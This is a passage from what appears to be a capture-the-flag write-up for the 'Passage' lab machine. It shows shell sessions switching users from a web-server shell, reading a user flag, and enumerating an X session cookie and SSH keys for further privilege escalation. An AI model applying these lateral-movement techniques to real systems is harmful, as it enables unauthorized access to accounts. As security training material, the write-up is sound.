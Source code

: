 ```bash
www-data@passage:/var/www/html/CuteNews/uploads$ su - root
Password:
su: Authentication failure
www-data@passage:/var/www/html/CuteNews/uploads$ su - nadav
Password:
su: Authentication failure
www-data@passage:/var/www/html/CuteNews/uploads$ su - paul
Password:
paul@passage:~$ id
uid=1001(paul) gid=1001(paul) groups=1001(paul)
paul@passage:~$ cat user.txt
5c107d52957921189b2e060da53e7e96
```

# Root Flag
---

## From paul to nadav


### Enumeration

There's `.Xauthority presented`, and `nadav` have a logon session, so if I get access to `nadav`, I may be able to abuse `Xauthority` cookie to view the user desktop

```bash
paul@passage:~$ strings .Xauthority
passage
MIT-MAGIC-COOKIE-1
paul@passage:~$ w
 20:38:26 up  1:16,  2 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
nadav    tty7     :0               19:22    1:15m  3.83s  0.18s /sbin/upstart --user
```

### Misconfigured ssh key

I noticed a weird thing about the ssh keys

```bash
paul@passage:~$ find . -type f -exec ls -latr {} + 2>/dev/null
-rw-r--r-- 1 paul paul    220 Aug 31  2015 ./.bash_logout
-rw-r--r-- 1 paul paul   8980 Apr 20  2016 ./examples.desktop
-rw-r--r-- 1 paul paul    655 May 16  2017 ./.profile
-rw-r--r-- 1 paul paul    395 Jul 21  2020 ./.ssh/id_rsa.pub
-rw------- 1 paul paul   1679 Jul 21  2020 ./.ssh/id_rsa
-rw-r--r-- 1 paul paul    395 Jul 21  2020 ./.ssh/authorized_keys
---------- 1 paul paul      0 Jul 21  2020 ./.bash_history
-rw-r--r-- 1 paul paul   3770 Jul 21  2020 ./.bashrc
[...]
-r-------- 1 paul paul     33 Feb  7 19:22 ./user.txt
```
